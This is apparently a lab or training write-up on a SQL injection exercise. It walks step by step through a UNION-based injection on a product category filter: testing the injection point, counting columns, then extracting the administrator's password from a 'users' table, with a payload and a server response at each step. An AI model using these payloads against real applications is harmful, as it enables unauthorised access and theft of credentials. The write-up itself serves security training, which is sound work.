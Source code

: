 # SQL injection, retrieving data from other tables

### Goal:
`Log in to the application as the administrator user`
### Info: The injection point is the product category filter
`target.com/filter?category=<input>`
### Info: The database contains the table 'users' and the columns 'username' and 'password'

<br><br>

**<ins>Step 1: Test injection point</ins>**

category='

`500: server error`

category='--

`200`
<br><br>

**<ins>Step 2: Enumerate data output with UNION attack</ins>**

category='UNION SELECT NULL--

`500 server error`<br><br>

category='UNION SELECT NULL,NULL--

`200`

category='UNION SELECT 'a','b'--

`200`

This means that each column can output strings.<br><br>

**<ins>Step 3: Exfiltrate the data</ins>**

category='UNION SELECT password,NULL FROM users WHERE username='administrator'--

`<password>`

Attempting to log in with this password grants us administrative access.
